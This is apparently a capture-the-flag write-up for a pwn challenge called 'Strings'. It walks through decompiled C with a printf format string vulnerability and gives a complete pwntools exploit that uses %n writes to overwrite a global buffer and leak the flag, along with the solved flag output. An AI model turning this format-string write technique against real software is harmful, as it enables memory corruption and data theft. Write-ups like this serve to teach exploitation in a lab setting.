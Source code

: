 ```yaml
---
title: Strings
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

I love Strings! Do you? Let me know!

Author: NoobMaster

## Solution

Decompiling the binary - we can first see a clear format string vulnerability. We get to read into a buffer that then gets printed directly with printf. Perhaps we can use it to leak an address, or write to somewhere with the ``%n`` format string.

```c
void main(EVP_PKEY_CTX *param_1)
{
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("Do you love strings? ");
  fgets(local_78,100,stdin);
  printf(local_78);
  main2();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Decompiling ``main2()``, we can see that it prints a global buffer ``fake_flag``, again introducing another format string vulnerability. We can see that the real flag is read into the ``local_38`` buffer. The idea for the solution would be to first use ``%n`` to rewrite ``fake_flag`` to ``%s``, so it prints out the real flag.
```c
void main2(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_38,0x28,__stream);
  printf(fake_flag);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
So there are a few things to know about format string vulnerability. Firstly, we can access a relative argument passed to printf, by adding a number to the format string. For example ``%5$s`` would print the string found at the 5th address on the stack. Well, it would, if it were a 32-bits binary. But on 64-bits it gets even better - the first arguments that printf looks at are the registers. (as the following [repo](https://github.com/Mymaqn/The-danger-of-repetivive-format-string-vulnerabilities-and-abusing-exit-on-full-RELRO) suggests). The first argument on the stack would actually be the 6th. This might not be true every time, I'm unsure why, but the current binary will have the stack starting at the 5th argument.

Another thing we have to know, is that in 64-bits binaries, we have to append addresses to our payload, instead of inserting them at the beginning. Because they have null bytes in them, which will mess with printf. This is highlighted in this [blog](https://tripoloski1337.github.io/ctf/2020/06/11/format-string-bug.html).

Knowing all these details, we can start working towards the exploit. First, we extract the address of ``fake_flag``. We want to write ``%5$s`` to it, because that's where the stack starts and where our real flag is. As per the blogpost earlier, writing 4 bytes would take a lot of printing, which will take a lot of time. So we have to write 2 bytes and then another 2 bytes. We print ``x`` bytes with ``%xc``, where ``x`` is the integer value for ``%5``. Then we write to the ``fake_flag`` address. We do the same with the ``$s``. We also have to pad the payload properly, so the stack is properly aligned. The full exploit:

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./strings")
target = remote("challs.n00bzunit3d.xyz",7150)

x = int.from_bytes(b"%5", byteorder='little')
y = int.from_bytes(b"$s", byteorder='little')

fake_flag_addr = p64(0x00404060)
fake_flag_addr_next = p64(0x00404060 + 2)

payload = "%{}c%10$hn%{}c%11$hnaaaaaa".format(x, y-x).encode() + fake_flag_addr + fake_flag_addr_next
#print(payload)

target.sendline(payload)
target.interactive()
```
We run the exploit:
```
$ ./solve.py
[...] # lots of whitespaces
\x8baaaaaa`@@n00bz{.hidden_and_famous}
z{f4k3_fl4g}[*] Got EOF while reading in interactive
```

Weird flag. But good win.

